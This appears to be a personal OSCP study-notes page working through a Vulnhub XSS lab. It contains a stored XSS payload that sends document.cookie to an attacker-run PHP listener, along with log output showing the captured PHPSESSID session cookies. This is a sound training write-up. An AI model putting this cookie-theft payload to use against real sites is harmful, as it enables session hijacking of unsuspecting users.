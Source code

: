 ```yaml
---
title: OSCP Study Notes - 2021/03/12
date: 2021-03-12 13:22:27
tags: [OSCP, Study Notes, Penetration Testing]
---
```


Vulnhub Box: [XSS & MySQL FILE](https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/)


# Cross-Site Scripting
Find the IP address using netdiscover: `192.168.119.134`

Test by add to box
```
<script>alert("helloxss")</script>
```

Create a php script:
``` php
<?php
$cookie = isset($_GET["test"]) ?$_GET["test"]:"";
?>
```
Start a php server:
```
service apache2 stop
php -S 192.168.119.132:80
# -S <addr>:<port> Run with built-in web server.
```

Inject javascript to comment box:
```
<script>location.href='http://192.168.119.132/index.php?test='+document.cookie;</script>
```
Then get a bounch of cookies:
```
[Fri Mar 12 14:06:59 2021] 192.168.119.134:37106 [200]: GET /index.php?test=PHPSESSID=h576adtob2huvem6m28ndk6lm5
[Fri Mar 12 14:06:59 2021] 192.168.119.134:37106 Closing
[Fri Mar 12 14:08:00 2021] 192.168.119.134:37110 Accepted
[Fri Mar 12 14:08:00 2021] 192.168.119.134:37110 [200]: GET /index.php?test=PHPSESSID=k0u7iarj89i203m84udm5ve7r5
[Fri Mar 12 14:08:00 2021] 192.168.119.134:37110 Closing
[Fri Mar 12 14:08:59 2021] 192.168.119.134:37114 Accepted
[Fri Mar 12 14:08:59 2021] 192.168.119.134:37114 [200]: GET /index.php?test=PHPSESSID=ioephhq6n3efntimq0nb2hfv26
[Fri Mar 12 14:08:59 2021] 192.168.119.134:37114 Closing
[Fri Mar 12 14:09:59 2021] 192.168.119.134:37118 Accepted
[Fri Mar 12 14:09:59 2021] 192.168.119.134:37118 [200]: GET /index.php?test=PHPSESSID=56lch59vt5c10o40lutelou564
[Fri Mar 12 14:09:59 2021] 192.168.119.134:37118 Closing
[Fri Mar 12 14:10:59 2021] 192.168.119.134:37122 Accepted
[Fri Mar 12 14:10:59 2021] 192.168.119.134:37122 [200]: GET /index.php?test=PHPSESSID=tal24ib05acs49vaf2i39r6jh7
[Fri Mar 12 14:10:59 2021] 192.168.119.134:37122 Closing
[Fri Mar 12 14:11:59 2021] 192.168.119.134:37126 Accepted
```
